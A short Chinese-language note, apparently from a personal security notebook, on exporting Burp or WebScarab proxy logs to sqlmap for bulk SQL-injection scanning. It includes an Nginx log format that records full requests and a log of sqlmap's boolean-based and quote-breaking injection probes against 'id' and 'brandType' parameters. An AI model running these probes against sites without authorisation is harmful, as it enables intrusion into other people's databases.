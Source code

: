 # 使用
从Burp或者WebScarab代理中获取日志

参数：-l 从文本中获取多个目标扫描

可以直接吧Burp proxy或者WebScarab proxy中的日志直接倒出来交给sqlmap来一个一个检测是否有注入。

---

```
log_format main '
=====================================================
=====================================================
$request
Cookie: $http_cookie
User-Agent: $http_user_agent
Content-Type: $content_type
Content-Length: $content_length
Host: $host

$request_body
=====================================================
';
```

- [Sqlmap联合Nginx实现“地毯式”检测网站SQL注入漏洞](https://cloud.tencent.com/developer/article/1036346)


---
# 做了啥子操作？

```
brandType=401&id=77
brandType=401&id=77
brandType=3681&id=77
brandType=401,(,",.))',&id=77
brandType=401'ewNhij<'">MqximG&id=77
brandType=401&id=8162
brandType=401&id=77,.'((.,(."
brandType=401&id=6611-6534
brandType=401&id=77.2fPlP
brandType=401&id=77'ffVRFy<'">XsvuSc
```

对id开放注入攻击

```
id=77&limit=20&page=1
id=77&limit=20&page=1
id=8739&limit=20&page=1
id=77,.",).'(.,&limit=20&page=1
id=77'OOerIg<'">odbsUK&limit=20&page=1
id=77) AND 2322=7663-- uEsi&limit=20&page=1
id=77) AND 3000=3000-- lVSy&limit=20&page=1
id=77) AND 1299=6921 AND (1828=1828&limit=20&page=1
id=77) AND 3000=3000 AND (5356=5356&limit=20&page=1
id=77)) AND 2927=1013 AND ((1285=1285&limit=20&page=1
id=77)) AND 3000=3000 AND ((2333=2333&limit=20&page=1
id=77))) AND 3202=5357 AND (((8471=8471&limit=20&page=1
id=77))) AND 3000=3000 AND (((9168=9168&limit=20&page=1
id=77 AND 8618=9900&limit=20&page=1
id=77 AND 3000=3000&limit=20&page=1
id=77 AND 7042=5956&limit=20&page=1

```